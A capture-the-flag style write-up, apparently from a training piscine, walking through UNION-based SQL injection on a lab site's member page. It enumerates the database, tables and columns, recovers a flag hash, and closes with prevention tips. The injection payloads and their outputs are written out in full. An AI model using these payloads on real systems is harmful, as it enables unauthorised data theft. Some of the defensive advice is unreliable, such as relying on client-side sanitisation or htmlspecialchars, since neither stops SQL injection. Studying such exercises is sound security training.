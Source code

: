 # SQL Injection Member page
Page: http://10.13.200.53/?page=member

WAPITI SCAN reveal this error
Cybersecurity piscine script also

## SQL
Basic SQL injection test:

`1 == 1`

**Result**: `You have an error sin your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '= 1' at line 1`

`1 UNION SELECT 1,2`
**Result**: 
```
ID: 1 UNION SELECT 1,2 
First name: one
Surname : me
ID: 1 UNION SELECT 1,2 
First name: 1
Surname : 2
```

**Database name:**
```
ID: 0 UNION SELECT 1,database()
First name: 1
Surname : Member_Sql_Injection
```

**Database version:**
```
ID: 1 UNION SELECT 1,@@version 
First name: 1
Surname : 5.5.64-MariaDB-1ubuntu0.14.04.1
```

**Table name:**
`0 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES `

RESULTS:
 - CHARACTER_SETS
...
 - db_default
 - users
 - guestbook
 - list_images
 - vote_dbs

 **Column names:**
 - CHARACTER_SET_NAME
...
 - username
 - password
 - user_id
 - first_name
 - last_name
 - town
 - country
 - planet
 - Commentaire
 - countersign
 - id_comment
 - url
 - title
 - id_vote
 - vote
 - nb_vote
 - subject

**We can use the concat() method to see extra fields:**
`0 UNION select 1,concat(town) from users`

For the user with the id 5: 
    last_name = "GetThe", 
    first_name = 'falg' ,
    town = '42', 
    country = '42', 
    planet = '42', 
    Commentaire= "Decrypt this password -> then lower all the char. Sh256 on it and it's good!",
    countersign = '5ff9d0165b4f92b14994e5c685cdce28'


using this website: [Hash Function (+Salt) Decrypter - Unhash Password - Online Decoder](https://www.dcode.fr/hash-function)
The decrypted hash md5 give: *FortyTwo*

If we encrypt `fortytwo` with SHA256 we have: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## How to prevent SQL injection
### Client Side (JQUERY)
- Input sanitization, before sending any data to the server
- Use input masks to restrict user input to specific formats.



### Server side (PHP)
- Use ORM
- Input validation and sanitization with php functions like:
    - `filter_var()`
    - `htmlspecialchars()`

---

Do *not* concatenate strings into queries in the stored procedure, or use 'exec', 'exec immediate', or equivalent functionality!

Do not create dynamic SQL queries using simple string concatenation.

Escape all data received from the client.

Apply an 'allow list' of allowed characters, or a 'deny list' of disallowed characters in user input.

Apply the principle of least privilege by using the least privileged database user possible.

In particular, avoid using the 'sa' or 'db-owner' database users. This does not eliminate SQL injection, but minimizes its impact.

Grant the minimum database access that is necessary for the application.